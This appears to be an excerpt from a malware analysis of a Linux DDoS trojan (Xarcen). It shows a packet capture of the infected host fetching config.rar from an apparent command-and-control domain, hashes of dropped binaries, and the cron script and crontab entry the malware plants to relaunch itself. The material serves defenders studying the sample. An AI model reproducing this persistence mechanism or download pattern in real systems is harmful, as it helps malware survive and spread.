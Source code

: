 ``` bash
  103 ?        Ss     0:00 id
```

#### Network Traffic

``` bash
Frame 523: 271 bytes on wire (2168 bits), 271 bytes captured (2168 bits)
Ethernet II, Src: CadmusCo_26:3d:b9 (08:00:27:26:3d:b9), Dst: RealtekU_12:35:02 (52:54:00:12:35:02)
Internet Protocol Version 4, Src: 10.0.2.15, Dst: 23.234.60.143
Transmission Control Protocol, Src Port: 39433 (39433), Dst Port: 80 (80), Seq: 1, Ack: 1, Len: 217
Hypertext Transfer Protocol
    GET /config.rar HTTP/1.1\r\n
        [Expert Info (Chat/Sequence): GET /config.rar HTTP/1.1\r\n]
        Request Method: GET
        Request URI: /config.rar
        Request Version: HTTP/1.1
    Accept: */*\r\n
    Accept-Language: zh-cn\r\n
    User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.2; SV1; TencentTraveler ; .NET CLR 1.1.4322)\r\n
    Host: aa.hostasa.org\r\n
    Connection: Keep-Alive\r\n
    \r\n
    [Full request URI: http://aa.hostasa.org/config.rar]
    [HTTP request 1/1]
    [Response in frame: 537]
```

#### Dropped Files

2 binaries were dropped onto the file system, which looked to be copies of itself:

- **g7hs-dump/usr/bin/filupxsndj**
    - sha256: 3657bd42fef97343c78a199d3611285e6fe7b88cc91e127d17ebbbbb2fd2f292
    - Common name: HEUR:Trojan-DDoS.Linux.Xarcen.a
- **g7hs-dump/lib/libudev.so**
    - sha256: acbccef76341af012bdf8f0022b302c08c72c6911631f98de8d9f694b3460e25
    - Common name: HEUR:Trojan-DDoS.Linux.Xarcen.a

Several other plain text files were dropped in order to ensure startup:

**/etc/cron.hourly/gcc.sh**

``` bash
#!/bin/sh
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/usr/X11R6/bin
for i in `cat /proc/net/dev|grep :|awk -F: {'print $1'}`; do ifconfig $i up& done
cp /lib/libudev.so /lib/libudev.so.6
/lib/libudev.so.6
```

**/etc/crontab**

``` bash
*/3 * * * * root /etc/cron.hourly/gcc.sh
```

